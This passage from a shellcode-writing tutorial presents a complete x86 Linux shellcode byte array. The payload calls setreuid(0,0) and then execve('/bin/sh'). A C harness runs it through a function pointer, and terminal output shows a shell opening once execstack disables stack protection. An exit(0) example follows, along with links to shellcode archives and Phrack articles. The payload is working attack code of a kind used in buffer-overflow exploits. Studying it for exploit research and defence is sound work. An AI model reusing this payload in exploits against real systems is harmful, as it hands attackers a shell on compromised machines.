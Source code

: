 Next, arrange the hexadecimal opcodes in char type array (C string).

```c
char code[ ] = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb"
               "\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89"
               "\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd"
               "\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f"
               "\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42";
```

Finally insert the shellcode into our test program, compile and run.

```c
/*test.c*/
#include <unistd.h>

char code[] = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb"
              "\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89"
              "\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd"
              "\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f"
              "\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42";

int main(int argc, char **argv)
{
    /*creating a function pointer*/
    int (*func)();
    func = (int (*)()) code;
    (int)(*func)();
}
```

```
[bodo@bakawali testbed8]$ gcc -g test.c -o test
[bodo@bakawali testbed8]$ execstack -s test
[bodo@bakawali testbed8]$ ./test
sh-3.00$
```

Well it works. Now, let try another example by using a simple C program. In this example we are using system call for exit(0), that is exit with no error and the program is shown below.

```c
/* exit.c */
#include <unistd.h>

int main()
{
    exit(0);
}
```

Do some verification.

```
[bodo@bakawali testbed7]$ gcc -g exit.c -o exit
[bodo@bakawali testbed7]$ execstack -s exit
[bodo@bakawali testbed7]$ ./exit
[bodo@bakawali testbed7]$ echo $?
0
[bodo@bakawali testbed7]$
```


[1]: http://www.metasploit.com/
[2]: http://www.shellcode.org/
[3]: http://www.shellcode.com.ar/docz/bof/Writing_shellcode.html
[4]: http://www.shellcode.com.ar/en/shellcodes.html
[5]: http://packetstorm.linuxsecurity.com/shellcode/
[6]: http://www.l0t3k.org/programming/docs/shellcode/
[7]: http://www.vividmachines.com/shellcode/shellcode.html
[8]: http://www.infosecwriters.com/hhworld/shellcode.txt
[9]: http://www.hick.org/code/skape/papers/win32-shellcode.pdf
[10]: http://www.orkspace.net/software/libShellCode/index.php
[11]: http://www.phrack.org/issues.html?issue=49&id=14#article
[12]: http://www.phrack.org/issues.html?issue=57&id=15#article
[13]: http://www.phrack.org/issues.html?issue=57&id=5#article
[14]: http://www.phrack.org/issues.html?issue=61&id=11#article
[15]: http://www.infosyssec.com/